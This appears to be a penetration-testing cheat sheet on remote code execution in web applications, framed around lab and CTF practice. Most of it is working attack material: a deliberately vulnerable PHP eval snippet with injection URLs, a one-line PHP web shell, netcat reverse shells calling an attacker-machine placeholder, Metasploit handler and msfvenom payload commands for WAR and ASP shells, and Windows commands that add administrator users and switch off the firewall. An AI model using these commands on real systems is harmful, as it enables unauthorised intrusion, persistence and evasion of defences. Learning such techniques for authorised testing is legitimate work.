 # Remote code execution

Remote code execution \(RCE\), also known as code injection, refers to executing commands directly on the underlying operating system via the web application, in the language of the web application.

## Basic technique

The following php snippet will take the `GET` parameter `code` and run it through the `eval()` function without any input sanitization:

```text
<?php $code = $_GET['code'];
eval($code); ?>
```

The `eval()` function evaluates the contents as php code, which means we can provide any php code as an argument. The code injection would look like this:

```text
http://[host]/page.php?code=phpinfo();
```

## Remote command execution

You might also be able to execute single-line system commands like `system('id');`. For multi-line system commands, use `shell_exec`:

```text
http://[host]/page.php?code=echo shell_exec('/sbin/ifconfig eth0');
```

This method is useful for both system enumeration and shell injection. Make sure to use absolute paths for calling system files, or the web application may not find them.

## Shells
For most lab or CTF environments, the goal is to get some kind of command shell on the machine for further exploitation. Sometimes this simply means discovering SSH or remote desktop credentials and logging in. Other times, it's exploiting a web application to generate a reverse shell that connects to your attack machine and waits for instructions.

In real life I'm not sure how often reverse shells really happen, but they're fun to pull off in the lab.

If shells are a new concept, [this is a good primer](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/).

## Listeners
Your attack machine needs to have a listener running to catch a reverse shell connection. Make sure you specify the IP address of your attack machine and use a port that doesn't already have a service listening. If you need to use `python SimpleHTTPServer` or similar to transfer exploits, make sure that isn't running on the same port. 

### Netcat listener
Using ports 80 or 443 will help you get around egress filtering:
```
nc -lvp 443
```
### Meterpreter listener
You may prefer a Meterpreter listener if you're connecting to a Windows machine and want to take advantage of commands like `getsystem`, or you want to use local Metasploit exploits once you've connected to the remote machine.

Avoid using port 4444 since that is widely recognized as a Metasploit port:
```
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp # or whatever
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost [attack machine] # your IP address
lhost => [attack machine]
msf exploit(handler) > set lport 443
lport => 443
msf exploit(handler) > run
```

## Simple PHP web shell
Assuming you are able to put a file on the web server or edit an existing one (e.g. CMS template) this is the simplest type of shell:

```
<?php echo shell_exec($_GET['cmd']); ?>
```
You can use it for system commands: 
```
http://[host]/wordpress/index.php?cmd=id
```
You can also use it to create a reverse shell:
```
http://[host]/wordpress/?cmd=nc [attack machine] [port] -e /bin/sh
```
## PHP shell
This [PHP web shell from pentestmonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) is nice. Make sure to change the following variables before uploading:
```
$ip = '127.0.0.1';  # change to attack machine IP
$port = 1234;       # change to attack machine port
```
## Perl shell
I've never tried [a Perl shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell) because I've never encountered a Perl web server, but it's probably okay. 

As with the PHP shell, change the following variables:
```
my $ip = '127.0.0.1';
my $port = 1234;
```

## WAR shell
If you're able to access a Tomcat server's management interface, you can generate and upload a WAR file:
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[attack machine] LPORT=443 -f war > shell.war
```
You can fire the shell by clicking on the link in Tomcat's management interface, or by going to the appropriate URL (e.g. `http://[host]/shell/`)

## Windows
Windows is a little weird. If you encounter an IIS server, you can use msfvenom to create an `.asp` or `.aspx` payload:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[attack machine] LPORT=443 -f asp > shell.asp
```
You can also attempt to download `nc.exe`, then run: 
```
nc.exe -e cmd.exe [attack machine] [port]
```
If RDP is enabled (port 3389), you might be able to create a user and add them to the “Remote Desktop Users” group, then log in via remote desktop.

Add a user on windows:
```
net user $username $password /add
```
Add a user to the “Remote Desktop Users” group:
```
net localgroup "Remote Desktop Users" $username /add
```
Make a user an administrator:
```
net localgroup administrators $username /add
```
Disable Windows firewall on newer versions:
```
NetSh Advfirewall set allprofiles state off
```
Disable windows firewall on older windows:
```
netsh firewall set opmode disable
```
## Upgrading shell
You will use this line pretty often to fix your shells:
```
python -c 'import pty; pty.spawn("/bin/bash");'
```


## Further reading
* [Reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* [Creating Metasploit payloads](https://netsec.ws/?p=331)
